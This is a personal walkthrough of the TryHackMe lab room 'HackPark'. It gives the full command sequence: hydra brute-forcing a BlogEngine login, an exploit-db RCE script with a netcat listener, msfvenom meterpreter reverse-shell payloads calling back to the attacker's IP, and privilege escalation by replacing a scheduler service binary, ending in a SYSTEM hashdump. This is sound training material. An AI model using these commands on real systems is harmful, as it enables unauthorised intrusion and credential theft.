

*2021-08-29*

*kimm3*

# Walkthrough: HackPark
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/hackpark)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history/enum1
export IP=10.10.243.156
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`


This version of blogengine might be vulnerable to [RCE](https://nvd.nist.gov/vuln/detail/CVE-2019-6714) if we get the credentials.


A wild login site appears. It uses a POST form.


Let's try the default credentials.


Let's crack it.

```
hydra -f -V $IP -l admin -P sl/Passwords/Leaked-Databases/rockyou.txt http-post-form "/Account/login.aspx:__VIEWSTATE=PBrr9hXypKVb9vHI34CpelUqE9s0xj48isHxxY0GibkK8dwtNKaQVVM9tVqYepTXCRya9ycPWCfYbKECl%2FY3ow%2FGdCdIprjmBuxqr4RpTfb%2FbJGw%2BsLXI8yf5yxstdrc4jiFQHDsqq1tFM6YpxDXhCBBxhHuXaefNFljpv2QFbmn%2FPID&__EVENTVALIDATION=0w9RGcbfS%2F5uN%2BgUHXbi01i0fGOq%2B7RNFUDcHyxuShhGRkjW5S11FlK2UagrmoY%2BOW3W%2Bnurlx2vWc9AgYnIWiK%2BOvgjF3O9ju8TFm%2B9%2Bk6UkLt3YLhJtqDzGSQeq5VVp%2BSbxD7jH%2FGd84PLkhxmMLrFcn7seGbPSiMN1f9kASJ%2F1GZc&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" | tee scans/hydra-p80login
```

Use firefox devtools to get the POST data right(Network - Request - Form data).


Success.


## Foothold/Exploit
Get [this](https://www.exploit-db.com/exploits/46353) script.

```
mv ../Downloads/46353.cs upload/PostView.ascx
vim upload/PostView.ascx
# change IP to your tunnel ip

#new shell
script history/target1
nc -lvnp 4353
```


Follow the instructions in the file.

Trigger: `curl "http://10.10.243.156/?theme=../../App_Data/files"`


### Shell to meterpreter
- Create payload

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3131 -f exe -o upload/mymerp.exe
```

- Transfer it to target


- Set up a listener in msfconsole

```
script history/target2
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.8.210.115
set LPORT 3131
run
```

Execute: `powershell start-process mymerp.exe`


## Privilege Escalation
```
# meterpreter
dir 'C:\Program Files (x86)'
ps
```

Going through the services, the 'Windows System Scheduler' is vulnerable to priv esc due to weak permission on files. We can replace the 'WService.exe' with a malicious client and get a reverse shell with system authority. It's all explanied in this [link](https://www.exploit-db.com/exploits/45072).


We have the same version that the exploit is written for.

```
# Enumerate service further, for path and name
load powershell
powershell_shell
# Service name
get-wmiobject win32_service | ?{$_.Name -like '*schedule*'} | select Name, PathName
# Exact path
get-childitem -path "C:\" -recurse -include "WService.exe" -erroraction silentlycontinue
```




Let's create another meterpreter binary with a different port, upload it and replace "WService.exe" with it. We don't have permissions to restart the service but according to the exploit it should restart itself in short intervals.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3132 -f exe -o upload/mysecondmerp.exe
cd "C:\Program Files (x86)\SystemScheduler"
ren "WService.exe" "WService.bak"
dir # to check
copy "C:\inetpub\wwwroot\App_data\files\mysecondmerp.exe" WService.exe
```

I waited for a while but nothing happened. Let's look at the files.


The service haven't restarted once since the machine was booted.

"Events\20198415519.INI_LOG.txt":


This looks more promising, the Message.exe seems to be the one restarting every 30 secs.

Restore the "WService.exe" and exchange the "Message.exe" instead.

```
ren "Message.exe" "Message.bak"
ren "WService.exe" "Message.exe"
ren "WService.bak" "Wservice.exe"
dir # to check
```


Meterpreter as Administrator.


The user flag is under user 'jeff'.
## Post Exploitation
Use 'ps' and 'getpid' and migrate to 'NT AUTHORITY\SYSTEM' to make a hashdump.


